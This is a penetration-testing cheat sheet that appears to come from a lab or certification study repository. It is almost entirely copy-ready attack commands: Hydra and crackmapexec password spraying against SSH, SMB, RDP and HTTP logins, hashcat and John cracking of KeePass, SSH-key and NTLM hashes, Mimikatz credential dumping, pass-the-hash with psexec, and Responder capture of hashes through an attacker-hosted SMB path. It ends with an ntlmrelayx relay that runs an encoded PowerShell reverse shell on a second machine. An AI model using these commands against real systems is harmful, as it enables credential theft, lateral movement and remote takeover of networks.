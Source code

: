 ## Hydra & crackmapexec
---
### SSH

```shell
hydra -L admin -P /usr/share/wordlist/rockyou.txt <target-ip> ssh -t 4
```

```shell
sudo crackmapexec ssh <target-ip> -u userlist.txt -p password.list
```

### SMB

```shell
sudo crackmapexec smb <target-ip> -u users.txt -p passwords.txt -d domain.com
```

```shell
sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success

sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success | grep "[+]"
```

### RDP

```shell
hydra -L Administrator -P /usr/share/wordlist/rockyou.txt <target-ip> rdp -t 4
```

```shell
sudo crackmapexec rdp <target-ip> -u userlist.txt -p password.list -d domain.com
```

```shell
sudo crackmapexec rdp $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success

sudo crackmapexec rdp $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success | grep "[+]"
```

### HTTP Basic Auth

```shell
hydra -l admin -P /usr/share/wordlist/rockyou.txt  <target-ip> http-get
```

### HTTP POST Login Form

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -I -V -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://$IP/:A=BASIC:F=401"
```

## Cracking Password
---
### Customized mutating wordlist

```text
c $1
c $!
```

### Hashcat

```shell
hashcat --wordlist=/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/my-rule.rule user.hash

hashcat --wordlist=/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule user.hash --force
```

### John

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=/usr/share/hashcat/rules/my-rule.rule user.hash 

john --wordlist=/usr/share/wordlists/rockyou.txt --rules=/usr/share/hashcat/rules/best64.rule user.hash 
```

## KeePass file
---

```shell
keepass2john Database.kdbx > keepass.hash
```

```shell
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## SSH Keys
---

```shell
ssh2john id_rsa > id_rsa.hash
```

```shell
john --wordlist=ssh.passwords --rules=sshRules id_rsa.hash
```

## NTLM Hashes
---
### Mimikatz

```powershell
.\mimikatz.exe
```

Warning: Mimikatz's commands could not work depending on the Windows version. Make sure to download the correct version after checking with `systeminfo` the Windows version.

Then, if we have the privileges, it can be used to dump NTLM hashes with:

```powershell
privilege::debug
token::elevate
lsadump::sam
```

To impersonate another user:

```powershell
 sekurlsa::pth /user:Administrator /domain:<DOMAI> /ntlm:<NTLM-HASH> /impersonate
```

### Cracking the NTLM hashes

```shell
hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Passing the NTLM hashes

The NTLM hashe can be used also as is if the protocol supports it. An example is SMB

```shell
smbclient \\\\<TARGET-IP>\\secrets -U Administrator --pw-nt-hash <NTLM-HASH>
```

We can escalate the writables shares with `impacket-psexec`, a oneliner tool that opens a reverse shell with the exploited target.

```shell
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM-HASH> Administrator@<TARGET-IP>
```

### Cracking the Net-NTLMv2 hashes

One of the authentication protocols Windows machines use to authenticate across the network is a challenge / response / validation called Net-NTLMv2. If can get a Windows machine to engage my machine with one of these requests, we can perform an offline cracking to attempt to retrieve their password. In some cases, we could also do a relay attack to authenticate directly to some other server in the network.

Once identified our interface, we can start our interceptor with

```shell
sudo responder -I <INTERFACE>
```

And from the Victim we only need to mount as a SMB share a fake provided path

```powershell
dir \\<ATTACKER-IP>\test
```

In this way `responder` will dump the hash that could be cracked with code **5600** on hashcat

```shell
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

### Relaying the Net-NTLMv2 hashes

We can perform a `ntlmrelayx` attack if the gained hash is too difficult to be cracked. In this case the `<TARGET-IP>` is the second exploitable machine on the network.

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c "powershell -enc <ENCODED-REVSHELL>"
```

The encoded reverse shell can be crafted with some UTF16-BE malicious code crafted with [https://www.revshells.com](https://www.revshells.com/). Then, we have to gain the hash from the first machine. We can do the same attack as before, mounting on the machine 1 the fake SMB share, in order to gain the hash.

```powershell
dir \\<ATTACKER-IP>\test
```

Now we `impacket-ntlmrelayx` will pass the hash to the second machine to authenticate us with the same hash. If the user is also the Administrator of the second machine, we will be logged as Administrator.